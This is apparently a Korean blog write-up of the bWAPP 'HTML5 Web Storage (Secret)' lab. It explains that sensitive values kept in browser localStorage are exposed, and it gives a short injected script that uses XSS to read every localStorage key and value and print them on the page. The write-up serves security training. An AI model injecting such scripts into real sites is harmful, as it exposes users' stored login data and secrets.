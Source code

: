 ```yaml
---
layout: single
title: (bWAPP)HTML5 Web Storage (Secret)
categories: bwapp
tag: [XSS,HTML5 Web Storage, bwapp, bee box, OWASP TOP 10, OWASP]
toc: true
author_profile: false
---
```


# 취약점 설명
> HTML5 Web Storge는 웹 브라우저에서 데이터를 클라이언트 측에 저장할 수 있는 기술이다. 보통 Web Storage는 로컬 스토리지와 세션 스토리지라는 두 개의 메커니즘이 존재하며, 각각 영구적으로 저장되거나 세션 중에만 유지되는 데이터를 제공한다. 이 때 민감 혹은 중요 데이터를 Web Storage에 저장하는 것은 보안위협이 존재한다. 임의의 사용자가 쉽게 접근할 수 있기 때문이다.

![그림 1-1](/assets/image/bwapp/sensitive%20data%20exposure/HTML5%20Web%20Storage%20(Secret)/image.png)
- 로그인 정보와 secret 값들이 HTML5 Web Sotrage에 저장되어 있다고 한다.

```
if(typeof(Storage) !== "undefined")
{

    localStorage.login = "bee";
    localStorage.secret = "Any bugs?";

}
else
{

    alert("Sorry, your browser does not support web storage...");

}
```

- 우선 해당 페이지의 소스코드를 보게되면 현재 접속되어 있는 사용자에 대한 로그인 정보와 secret값이 고스란히 나오고 있다.
- 이 내용들을 기반으로 xss 취약점과 연계시키면 될 듯 하다.

```
<script>
    var str = "";
    for(var key in localStorage) {
        str += "<br>" + key + " = " + localStorage.getItem(key);
    }
    
    document.write(str);
</script>
```

- 위 코드를 통해 웹 브라우저의 로컬 스토리지에 저장된 데이터를 모두 읽어와 화면에 출력시킨다.

![그림 1-2](/assets/image/bwapp/sensitive%20data%20exposure/HTML5%20Web%20Storage%20(Secret)/image-1.png)
- xss를 통해 로컬 스토리지에 저장된 데이터가 화면에 출력되는 것을 볼 수 있다.
